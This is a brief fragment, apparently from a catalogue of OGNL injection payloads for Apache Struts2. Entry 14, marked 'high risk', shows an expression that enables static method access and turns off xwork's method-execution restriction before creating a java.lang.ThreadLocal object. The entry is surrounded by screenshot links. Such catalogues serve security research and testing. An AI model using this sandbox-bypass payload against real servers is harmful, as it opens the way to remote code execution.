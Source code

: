   ![](./imgs/chop-13-001.png)


### 14 = "java.lang.ThreadLocal"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.ThreadLocal()}
  ```
  ![](./imgs/chop-14-001.png)
